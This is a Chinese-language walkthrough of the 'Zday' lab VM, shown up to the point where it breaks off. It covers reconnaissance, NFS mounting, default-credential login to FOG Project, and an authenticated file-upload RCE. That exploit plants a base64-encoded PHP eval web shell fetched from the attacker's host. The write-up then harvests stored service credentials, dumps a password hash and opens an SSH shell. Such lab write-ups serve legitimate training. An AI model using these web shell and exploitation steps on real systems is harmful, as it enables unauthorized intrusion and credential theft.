# Zday

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2021-03-10

✔️ MD5 // d063006d028454c036c08ec7110667ff

☠ Root // 62

💀 User // 61

📝 Notes //
Hack and Fun!

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.130
```

## 信息搜集

```shell
┌──(randark ㉿ kali)-[~]
└─$ sudo nmap --min-rate=2000 -v -A -p- 192.168.56.130
Nmap scan report for bogon (192.168.56.130)
Host is up (0.0017s latency).
Not shown: 65524 closed tcp ports (reset)
PORT      STATE SERVICE  VERSION
21/tcp    open  ftp      vsftpd 3.0.3
22/tcp    open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 ee:01:82:dc:7a:00:0e:0e:fc:d9:08:ca:d8:7e:e5:2e (RSA)
|   256 44:af:47:d8:9f:ea:ae:3e:9f:aa:ec:1d:fb:22:aa:0f (ECDSA)
|_  256 6a:fb:b4:13:64:df:6e:75:b2:b9:4e:f1:92:97:72:30 (ED25519)
80/tcp    open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
111/tcp   open  rpcbind  2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      42139/tcp6  mountd
|   100005  1,2,3      43941/tcp   mountd
|   100005  1,2,3      54136/udp6  mountd
|   100005  1,2,3      58768/udp   mountd
|   100021  1,3,4      35181/tcp   nlockmgr
|   100021  1,3,4      36498/udp   nlockmgr
|   100021  1,3,4      37525/tcp6  nlockmgr
|   100021  1,3,4      41557/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
443/tcp   open  http     Apache httpd 2.4.38
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
2049/tcp  open  nfs      3-4 (RPC #100003)
3306/tcp  open  mysql    MariaDB 5.5.5-10.3.27
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 88
|   Capabilities flags: 63486
|   Some Capabilities: FoundRows, SupportsCompression, Speaks41ProtocolOld, ConnectWithDatabase, SupportsTransactions, DontAllowDatabaseTableColumn, IgnoreSigpipes, LongColumnFlag, Support41Auth, Speaks41ProtocolNew, InteractiveClient, IgnoreSpaceBeforeParenthesis, SupportsLoadDataLocal, ODBCClient, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 8y}&C`74<n:qNpjCQKc1
|_  Auth Plugin Name: mysql_native_password
35181/tcp open  nlockmgr 1-4 (RPC #100021)
43073/tcp open  mountd   1-3 (RPC #100005)
43941/tcp open  mountd   1-3 (RPC #100005)
47395/tcp open  mountd   1-3 (RPC #100005)
MAC Address: 08:00:27:63:18:72 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Uptime guess: 16.489 days (since Mon Mar 24 11:04:51 2025)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=262 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## NFS Services

可以看到目标机器上开启了 NFS 服务，查看一下信息

```shell
┌──(randark ㉿ kali)-[~]
└─$ showmount -e 192.168.56.130
Export list for 192.168.56.130:
/images/dev *
/images     *
```

有点意思，挂载一下路径

```shell
┌──(randark ㉿ kali)-[~]
└─$ sudo mkdir /mnt/HMV-Zday-images-dev

┌──(randark ㉿ kali)-[~]
└─$ sudo mount -t nfs 192.168.56.130:/images/dev /mnt/HMV-Zday-images-dev

┌──(randark ㉿ kali)-[~]
└─$ sudo mkdir /mnt/HMV-Zday-images

┌──(randark ㉿ kali)-[~]
└─$ sudo mount -t nfs 192.168.56.130:/images /mnt/HMV-Zday-images
```

查看有哪些文件

```shell
┌──(randark ㉿ kali)-[~]
└─$ ls -lah /mnt/HMV-Zday-images
总计 16K
drwxrwxrwx 4 1001 root 4.0K 2021 年 3 月 10 日 .
drwxr-xr-x 4 root root 4.0K  4 月 9 日 22:56 ..
drwxrwxrwx 3 1001 root 4.0K 2021 年 3 月 10 日 dev
-rwxrwxrwx 1 1001 root    0 2021 年 3 月 10 日 .mntcheck
drwxrwxrwx 2 1001 root 4.0K 2021 年 3 月 10 日 postdownloadscripts

┌──(randark ㉿ kali)-[~]
└─$ ls -lah /mnt/HMV-Zday-images-dev/
总计 12K
drwxrwxrwx 3 1001 root 4.0K 2021 年 3 月 10 日 .
drwxr-xr-x 4 root root 4.0K  4 月 9 日 22:56 ..
-rwxrwxrwx 1 1001 root    0 2021 年 3 月 10 日 .mntcheck
drwxrwxrwx 2 1001 root 4.0K 2021 年 3 月 10 日 postinitscripts
```

深入进行分析，可以发现

```bash title="/mnt/HMV-Zday-images-dev/postinitscripts/fog.postinit"
#!/bin/bash
## This file serves as a starting point to call your custom pre-imaging/post init loading scripts.
## <SCRIPTNAME> should be changed to the script you're planning to use.
## Syntax of post init scripts are
#. ${postinitpath}<SCRIPTNAME>
```

```bash title="/mnt/HMV-Zday-images/postdownloadscripts/fog.postdownload"
#!/bin/bash
## This file serves as a starting point to call your custom postimaging scripts.
## <SCRIPTNAME> should be changed to the script you're planning to use.
## Syntax of post download scripts are
#. ${postdownpath}<SCRIPTNAME>
```

目前来看，并没有实质性有价值的信息

## Web Service - FOG Project

尝试进行目录爆破

```shell
┌──(randark ㉿ kali)-[~]
└─$ dirsearch -u 192.168.56.130
Target: http://192.168.56.130/

[22:52:14] Starting:
[22:52:15] 403 -  279B  - /.ht_wsr.txt
[22:52:15] 403 -  279B  - /.htaccess.bak1
[22:52:15] 403 -  279B  - /.htaccess.orig
[22:52:15] 403 -  279B  - /.htaccess.save
[22:52:15] 403 -  279B  - /.htaccess.sample
[22:52:15] 403 -  279B  - /.htaccess_extra
[22:52:15] 403 -  279B  - /.htaccess_orig
[22:52:15] 403 -  279B  - /.htaccess_sc
[22:52:15] 403 -  279B  - /.htaccessBAK
[22:52:15] 403 -  279B  - /.htaccessOLD2
[22:52:15] 403 -  279B  - /.htaccessOLD
[22:52:15] 403 -  279B  - /.htm
[22:52:15] 403 -  279B  - /.html
[22:52:15] 403 -  279B  - /.htpasswd_test
[22:52:15] 403 -  279B  - /.htpasswds
[22:52:15] 403 -  279B  - /.httr-oauth
[22:52:16] 403 -  279B  - /.php
[22:52:51] 302 -    0B  - /index.php  ->  /fog/index.php
[22:52:51] 302 -    0B  - /index.php/login/  ->  /fog/index.php
[22:53:15] 403 -  279B  - /server-status
[22:53:15] 403 -  279B  - /server-status/
```

访问一下 `http://192.168.56.130/fog/index.php`



有点意思，看起来是开源的一种框架，经过定位可以确定为 [FOG Project](https://fogproject.org/)

使用默认的凭据 `fog:password` 可以成功登录



在 [Exploit Database](https://www.exploit-db.com/) 中进行搜索



尝试利用 [FOGProject 1.5.9 - File Upload RCE (Authenticated)](https://www.exploit-db.com/exploits/49811)

```shell
┌──(randark ㉿ kali)-[~]
└─$ dd if=/dev/zero of=myshell bs=10485760 count=1
输入了 1+0 块记录
输出了 1+0 块记录
10485760 字节 (10 MB, 10 MiB) 已复制，0.0843002 s，124 MB/s

┌──(randark ㉿ kali)-[~]
└─$ echo PD9waHAgQGV2YWwoJF9SRVFVRVNUWydzaGVsbCddKSA/Pg== | base64 -d
<?php @eval($_REQUEST['shell']) ?>

┌──(randark ㉿ kali)-[~]
└─$ echo PD9waHAgQGV2YWwoJF9SRVFVRVNUWydzaGVsbCddKSA/Pg== | base64 -d >> myshell
```

然后访问 `http://192.168.56.130/fog/management/index.php?node=about&sub=kernel&file=aHR0cDovLzE5Mi4xNjguNTYuMTI3L215c2hlbGwK=&arch=arm64`

将 `Kernel Name` 修改为 `myshell.php`



但是很明显连接失败了，严重怀疑是由于目标机器在本地部署时参数被修改



那么就尝试获取网站所储存的凭据

在 `http://192.168.56.130/fog/management/index.php?node=about&sub=settings` 中可以获得





```plaintext
fogstorage:7duC22OLzHbKZAKGXzw<
fogproject:84D1gia!8M9HSsR8gXau
```

将 ftp 的配置修改为当前的 ip 地址之后，继续尝试利用漏洞



尝试连接成功



使用蚁剑连接成功



并探测到存在有以下普通用户



- estas
- fogproject

## Database

尝试使用上面获取到的凭据连接到数据库

```shell
┌──(randark ㉿ kali)-[~]
└─$ mysql --skip-ssl -u fogstorage -h 192.168.56.130 -p
Enter password:
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 364
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Support MariaDB developers by giving a star at https://github.com/MariaDB/server
Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| fog                |
| information_schema |
+--------------------+
2 rows in set (0.002 sec)
```

尝试查看 fog 服务的所有数据表

```sql
MariaDB [fog]> show tables;
+------------------------+
| Tables_in_fog          |
+------------------------+
| clientUpdates          |
| dirCleaner             |
| globalSettings         |
| greenFog               |
| groupMembers           |
| groups                 |
| history                |
| hookEvents             |
| hostAutoLogOut         |
| hostMAC                |
| hostScreenSettings     |
| hosts                  |
| imageGroupAssoc        |
| imagePartitionTypes    |
| imageTypes             |
| images                 |
| imagingLog             |
| inventory              |
| ipxeTable              |
| keySequence            |
| moduleStatusByHost     |
| modules                |
| multicastSessions      |
| multicastSessionsAssoc |
| nfsFailures            |
| nfsGroupMembers        |
| nfsGroups              |
| notifyEvents           |
| os                     |
| oui                    |
| plugins                |
| powerManagement        |
| printerAssoc           |
| printers               |
| pxeMenu                |
| scheduledTasks         |
| schemaVersion          |
| snapinAssoc            |
| snapinGroupAssoc       |
| snapinJobs             |
| snapinTasks            |
| snapins                |
| supportedOS            |
| taskLog                |
| taskStates             |
| taskTypes              |
| tasks                  |
| userCleanup            |
| userTracking           |
| users                  |
| virus                  |
+------------------------+
51 rows in set (0.001 sec)

MariaDB [fog]> select * from users;
+-----+-------+--------------------------------------------------------------+---------------------+-----------+-------+----------+-----------+-----------+
| uId | uName | uPass                                                        | uCreateDate         | uCreateBy | uType | uDisplay | uAllowAPI | uAPIToken |
+-----+-------+--------------------------------------------------------------+---------------------+-----------+-------+----------+-----------+-----------+
|   1 | fog   | $2y$11$8QdmUSJOMByT3XuhhtRWsOlqydpDg8LHcnYPxr3oB3IGvfCkpuRWa | 2021-03-10 04:33:34 | fog       |     0 |          | 1         |           |
+-----+-------+--------------------------------------------------------------+---------------------+-----------+-------+----------+-----------+-----------+
1 row in set (0.000 sec)
```

没有更深入的有价值信息了

## User fogproject

尝试通过 SSH 连接

```shell
┌──(randark ㉿ kali)-[~]
└─$ ssh fogproject@192.168.56.130
fogproject@192.168.56.130's password:
Linux zday 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Apr  9 11:22:16 2025 from 192.168.56.127
-bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
You seem to be using the 'fogproject' system account to logon and work
on your FOG server system.

It's NOT recommended to use this account! Please create a new
account for administrative tasks.

If you re-run the installer it would reset the 'fog' account
password and therefore lock you out of the system!

Take care,
your FOGproject team
Connection to 192.168.56.130 closed.
```

尝试指定 SSH 的入口

```shell
┌──(randark ㉿ kali)-[~]
└─$ ssh fogproject@192.168.56.130 -t /bin/sh
fogproject@192.168.56.130's password:
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
$ whoami
fogproject
```

为了能够使用 bash 来进行交互，需要修改 `/home/fogproject/.bashrc` 文件的最后一行

```shell
$ cat /home/fogproject/.bashrc | tail -n 2
